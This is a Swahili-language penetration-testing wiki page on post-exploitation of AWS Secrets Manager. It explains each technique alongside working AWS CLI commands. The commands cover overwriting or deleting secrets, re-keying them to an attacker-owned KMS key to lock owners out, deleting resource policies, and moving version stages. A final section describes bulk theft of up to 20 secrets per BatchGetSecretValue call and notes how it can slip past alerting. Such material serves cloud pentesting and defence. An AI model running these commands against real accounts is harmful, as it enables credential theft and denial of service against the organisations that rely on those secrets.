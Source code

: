# AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Kwa maelezo zaidi angalia:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Soma Secrets

**secrets wenyewe ni taarifa nyeti**, [angalia ukurasa wa privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) ili ujifunze jinsi ya kuvisoma.

### DoS Badilisha Thamani ya Secret

Kubadilisha thamani ya secret kunaweza **kusababisha DoS kwa mifumo yote inayotegemea thamani hiyo.**

> [!WARNING]
> Kumbuka kwamba thamani za awali pia zinahifadhiwa, hivyo ni rahisi kurudi kwenye thamani ya awali.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Badilisha ufunguo wa KMS

Ikiwa mshambuliaji ana ruhusa secretsmanager:UpdateSecret, anaweza kusanidi siri ili itumie KMS key inayomilikiwa na mshambuliaji. Ufunguo huo kwa awali umewekwa kwa njia ambayo yeyote anaweza kuupata na kuutumia, hivyo kusasisha siri kwa ufunguo mpya kunawezekana. Ikiwa ufunguo haukupatikana, siri haingeweza kusasishwa.

Baada ya kubadilisha ufunguo wa siri, mshambuliaji anabadilisha usanidi wa ufunguo wake ili wao pekee waweze kuupata. Kwa hivyo, katika matoleo yajayo ya siri, yatakuwa yamefungwa kwa ufunguo mpya, na kwa kuwa hakuna mtu anayeweza kuufikia, uwezo wa kupata siri utapotea.

Ni muhimu kutambua kuwa ukosefu huu wa upatikanaji utatokea tu katika matoleo ya baadaye, baada ya yaliyomo kwenye siri kubadilika, kwa sababu toleo la sasa bado limefichwa kwa KMS key ya awali.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Idadi ya chini ya siku za kufuta secret ni 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Inawezekana kurejesha secret, jambo linalowezesha urejeshaji wa secrets zilizopangwa kufutwa, kwa kuwa kipindi kidogo cha kufuta secrets ni siku 7 na cha juu ni siku 30. Pamoja na ruhusa secretsmanager:GetSecretValue, hili linafanya iwezekane kupata maudhui yao.

Ili kurejesha secret ambayo iko katika mchakato wa kufutwa, unaweza kutumia amri ifuatayo:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Kitendo hiki kinaruhusu kufuta resource policy inayodhibiti nani anaweza kufikia secret. Hii inaweza kusababisha DoS ikiwa resource policy ilikuwa imewekwa kuruhusu upatikanaji kwa kundi maalum la watumiaji.

Ili kufuta resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Hali za siri hutumika kusimamia matoleo ya siri. AWSCURRENT inaonyesha toleo la sasa ambalo programu zinazitumia, AWSPREVIOUS huhifadhi toleo lililopita ili uweze kurudi nyuma ikiwa ni lazima, na AWSPENDING hutumika katika mchakato wa mzunguko kuandaa na kuthibitisha toleo jipya kabla ya kulifanya kuwa toleo la sasa.

Programu daima husoma toleo lenye AWSCURRENT. Ikiwa mtu atahamisha lebo hiyo kwa toleo lisilo sahihi, programu zitatumia vitambulisho batili na zinaweza kushindwa.

AWSPREVIOUS haitumiki kiotomatiki. Hata hivyo, ikiwa AWSCURRENT itaondolewa au itapangiwa upya kwa njia isiyo sahihi, inaweza kuonekana kwamba kila kitu bado kinaendelea kwa toleo lililopita.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Tumia vibaya Secrets Manager BatchGetSecretValue API ili kupata hadi 20 secrets kwa ombi moja. Hii inaweza kupunguza kwa kiasi kikubwa idadi ya API-call ikilinganishwa na kurudia GetSecretValue kwa kila secret. Ikiwa vichujio (tags/name) vinatumika, ruhusa ya ListSecrets pia inahitajika. CloudTrail bado inarekodi tukio moja la GetSecretValue kwa kila secret iliyopewa kwenye batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Kumbuka kwamba ruhusa `secretsmanager:BatchGetSecretValue` peke yake haitoshi kupata secrets; pia unahitaji `secretsmanager:GetSecretValue` kwa kila secret unayotaka kupata.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate kwa kutumia filters (tag key/value au name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kushughulikia kushindwa kwa sehemu
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Athari
- Haraka “smash-and-grab” ya siri nyingi kwa maombi machache ya API, ambayo inaweza kuiepuka mfumo wa onyo uliolenga mionekano ya ghafla ya GetSecretValue.
- Rejista za CloudTrail bado zinajumuisha tukio moja la GetSecretValue kwa kila siri iliyopatikana katika kundi.
